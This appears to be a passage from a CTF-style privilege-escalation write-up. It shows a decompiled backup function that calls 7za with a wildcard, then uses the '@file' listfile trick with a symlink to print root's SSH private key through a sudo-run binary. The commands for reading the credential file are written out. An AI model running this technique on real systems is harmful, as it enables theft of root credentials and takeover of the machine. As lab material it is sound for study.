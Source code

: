 ```c
void backupWebContent(void)

{
  int iVar1;
  
  iVar1 = chdir("/var/www/html");
  if (iVar1 == 0) {
    system("/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *");
  }
  else {
    perror("Error changing working directory to /var/www/html");
  }
  return;
}
```

When looking for this i found the following [hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks) page disclosing wildcards spare tricks. But basically whenever -- is used infron of * it could be abused to read any arbitrary files. This will then create a crash within the 7za and output the file content line per line.

So to exploit this we need to place a file within the **/var/www/html** directory


```bash
cd /var/www/html
touch @SSHKey
```

Next we can use a symlink to link the root user's ssh key to our created file.

```bash
ln -s /root/.ssh/id_rsa SSHKey
```


So after doing this run the backup command again and we'd see the contents of the id_rsa file of the root user.

```bash
sudo /usr/bin/usage_management
```